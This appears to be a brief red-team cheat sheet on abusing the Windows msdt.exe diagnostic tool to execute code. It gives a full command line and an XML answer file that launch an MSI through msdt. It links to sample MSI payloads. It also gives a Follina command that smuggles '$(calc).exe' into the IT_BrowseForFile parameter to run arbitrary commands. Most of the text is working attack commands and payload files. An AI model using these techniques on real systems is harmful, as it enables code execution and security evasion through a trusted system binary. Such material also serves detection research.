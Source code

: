 

## MSI Execution using msdt.exe
Reference:  https://lolbas-project.github.io/lolbas/Binaries/Msdt/

> https://gist.github.com/homjxi0e/3f35212db81b9375b7906031a40c6d87

## Method 1:
- Commad to execute is 

> msdt.exe -path C:\WINDOWS\diagnostics\index\PCWDiagnostic.xml -af C:\PCW8E57.xml /skip TRUE 

- save to PCW8E57.xml 

```
<?xml version="1.0" encoding="utf-16"?>
<Answers Version="1.0">
	<Interaction ID="IT_LaunchMethod">
		<Value>ContextMenu</Value>
	</Interaction>
	<Interaction ID="IT_SelectProgram">
		<Value>NotListed</Value>
	</Interaction>
	<Interaction ID="IT_BrowseForFile">
		<Value>C:\Windows\assembly\Exec-Execute.msi</Value>
	</Interaction>
</Answers>
```

## Method 2:

> https://github.com/mgeeky/msi-shenanigans

https://github.com/mgeeky/msi-shenanigans/blob/main/1-exe/test-msi.bat
https://github.com/mgeeky/msi-shenanigans/blob/main/1-exe/sample1-run-autoruns64.msi


## Follina using cmdline

- msdt /id PCWDiagnostic /skip force /param "IT_LaunchMethod=ContextMenu IT_BrowseForFile=/../../$(calc).exe"

